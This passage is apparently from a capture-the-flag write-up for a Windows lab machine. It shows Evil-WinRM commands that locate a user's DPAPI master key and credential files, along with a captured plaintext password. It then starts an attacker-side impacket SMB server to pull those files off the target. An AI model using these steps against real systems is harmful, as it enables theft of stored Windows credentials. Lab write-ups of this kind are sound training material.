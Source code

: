 now that we own the new credentials which is steph.cooper : ChefSteph2025! / we can go ahead and connect to this user.

We discovered DPAPI-protected credentials. 

DPAPI = **Data Protection API**

It’s used by Windows to **encrypt sensitive data**.

Every user has a **MasterKey**, and this MasterKey is used to encrypt/decrypt the actual data

```bash
*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials -h

    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-          3/8/2025   7:54 AM            414 C8D69EBE9A43E9DEBF6B5FBD48B521B9

*Evil-WinRM* PS C:\Users\steph.cooper\Documents> dir "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect"

    Directory: C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d---s-         2/23/2025   2:36 PM                S-1-5-21-1487982659-1829050783-2281216199-1107

*Evil-WinRM* PS C:\Users\steph.cooper\Documents> 
```

Let’s go ahead and open the smb server on our attacker machine and copy the masterkey and the credential.

1- On Attacker machine:

```bash
┌──(sanke㉿sanke)-[~/Downloads/puppy]
└─$ mkdir -p ./share                             
                                                                                                                                                                                              
┌──(sanke㉿sanke)-[~/Downloads/puppy]
└─$ impacket-smbserver share ./share -smb2support
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.70,57056)
[*] AUTHENTICATE_MESSAGE (\,DC)
[*] User DC\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Connecting Share(1:share)
[*] Disconnecting Share(1:share)
```
